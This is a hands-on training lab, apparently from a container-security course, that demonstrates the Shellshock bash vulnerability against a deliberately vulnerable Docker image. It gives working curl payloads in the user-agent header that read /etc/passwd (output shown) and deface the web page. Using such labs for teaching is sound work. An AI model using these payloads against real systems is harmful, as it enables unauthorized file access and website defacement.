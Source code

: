 ## Vulnerable/Outdated Libraries - Shell-Shock (Bashdoor) 

###### Some containers that are often used and available on `dockerhub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock is one such vulnerability found in older versions of bash that haven't been updated.


##### Step 1:

* Run the image vulnerable to shell-shock by running `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    root@we45:~#
    ```


##### Step 3:

* Open the browser and go to `http://<SERVER-IP>:8080` to verify if the application is running.

![](img/shellshock-browser.png)


##### Step 4:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<SERVER-IP>:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://<SERVER-IP>:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```


##### Step 6:

* Access `http://<SERVER-IP>:8080` on browser to confirm.

![](img/defaced.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

